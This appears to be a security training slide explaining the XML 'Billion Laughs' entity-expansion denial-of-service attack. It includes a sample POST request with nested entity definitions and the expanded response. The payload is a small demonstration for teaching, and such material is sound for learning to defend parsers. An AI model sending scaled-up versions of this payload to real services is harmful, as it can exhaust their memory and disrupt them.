

# Example 3
While this initially seems harmless, XML entities can be used by an attacker to cause a Denial of Service attack by embedding entities, within entities within entities. This attack is commonly referred to as the “Billion Laughs attack”. Some XML parsers automatically limit the amount of memory they can use.
| Request | Response |
| --- | --- |
| POST http://example.com/xml HTTP/1.1 <!DOCTYPE foo [ <!ELEMENT foo ANY> <!ENTITY bar "World "> <!ENTITY t1 "&bar;&bar;"> <!ENTITY t2 "&t1;&t1;&t1;&t1;"> <!ENTITY t3 "&t2;&t2;&t2;&t2;&t2;"> ]> <foo> Hello &t3; </foo> | HTTP/1.0 200 OK Hello World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World |